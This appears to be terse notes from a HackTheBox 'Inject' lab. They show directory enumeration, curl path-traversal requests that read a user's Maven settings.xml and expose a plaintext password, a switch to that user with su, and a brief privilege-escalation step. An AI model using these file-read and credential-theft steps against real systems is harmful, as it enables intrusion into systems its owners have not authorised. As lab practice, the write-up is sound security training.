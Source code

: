 #HackTheBox #linux 
# 1- Enumeration
## nmap
ports: 22,8080
## 
┌──(root㉿kali)-[/]
└─# gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://10.10.11.204:8080
/blogs                (Status: 200) [Size: 5371]
/environment          (Status: 500) [Size: 712]
/error                (Status: 500) [Size: 106]
/register             (Status: 200) [Size: 5654]
/upload               (Status: 200) [Size: 1857]

# Exploit
## LFI
┌──(root㉿kali)-[/home/kali/Desktop/HTB/inject]
└─# curl http://inject:8080/show_image?img=../../../../../../home/                    
frank
phil

┌──(root㉿kali)-[/home/kali/Desktop/HTB/inject]
└─# curl http://inject:8080/show_image?img=../../../../../../home/frank/.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>



## metasploit
pom.yml => spring clood (exploit)

# Foothold
bash-5.0$ id
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
bash-5.0$ su phil
su phil                                                                                                                                                                                                           
Password: DocPhillovestoInject123                                                                                                               
bash-5.0$ id                                                                                                                                                                                                      
id                                                                                                                                                                                                                
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)                                                                                                                                                                                                                                                                                                                                                
bash-5.0$ pwd                                                                                                                                                                                                     
pwd                                                                                                                                                                                                               
/home/frank                                                                                                                                                                                                       
bash-5.0$ cd ..                                                                                                                                                                                                   
cd ..                                                                                                                                                                                                             
bash-5.0$ cd phil                                                                                                                                                                                                 
cd phil                                                                                                                                                                                                           
bash-5.0$ cat user.txt                                                                                                                                                                                            
cat user.txt                                                                                                                                                                                                      
93122b6f9fc78091a00412d3a5818420

# PrivEsc
bash-5.0$ /user/bin/bash -p